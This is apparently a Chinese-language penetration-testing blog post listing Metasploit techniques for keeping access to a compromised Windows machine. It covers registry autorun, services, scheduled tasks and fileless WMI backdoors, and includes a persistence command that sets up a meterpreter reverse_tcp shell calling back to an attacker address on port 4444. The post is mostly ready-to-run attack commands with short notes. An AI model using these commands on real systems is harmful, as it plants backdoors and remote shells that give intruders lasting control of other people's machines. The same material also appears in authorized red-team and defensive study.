 ```yaml
---
title: "Metasploit 常用维权方式"
date: 2019-07-22T00:00:00+08:00
draft: false
tags: ["metasploit",'persistence']
categories: ["内网渗透"]
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


metasploit 后渗透常用的维持权限的方式.

<!--more-->

## 注册表

上传 vbs 开机自启 (被弃用).

```
run persistence -r 192.168.1.100 -p 4444 -i 5 -P windows/x64/meterpreter/reverse_tcp -X
```

上传 exe 开机自启 (替代 vbs 方式).

```
run post/windows/manage/persistence_exe REXEPATH=/home/exp10it/msf.exe
```

添加 powershell 开机自启.

```
use exploit/windows/local/registry_persistence
```

可指定 `STARTUP`, 但注意要在会话是 Administrator 权限的时候运行, System 权限需先降权, 否则无效.

## 服务

仅支持 x86 payload, 可通过 `exploit/windows/local/payload_inject` 反弹成 64 位的会话.

```
use exploit/windows/local/persistence_service
```

## 计划任务

上传 exe 执行, 需要 system 权限.
```
run scheduleme -e /home/exp10it/msf.exe -H 12
```

中途会出现 ` Failed to create scheduled task!!`, 但实际上已经添加成功.

## WMI

通过 powershell 方式执行, 无文件后门, 支持 5 种触发方式.

```
use exploit/windows/local/wmi_persistence
```

注意切换触发方式时要先清除以前的后门.

```
Get-WMIObject -Namespace root\Subscription -Class __EventFilter -Filter "Name='Updater'" | Remove-WmiObject -Verbose
Get-WMIObject -Namespace root\Subscription -Class CommandLineEventConsumer -Filter "Name='Updater'" | Remove-WmiObject -Verbose
Get-WMIObject -Namespace root\Subscription -Class __FilterToConsumerBinding -Filter "__Path LIKE '%Updater%'" | Remove-WmiObject -Verbose
``` 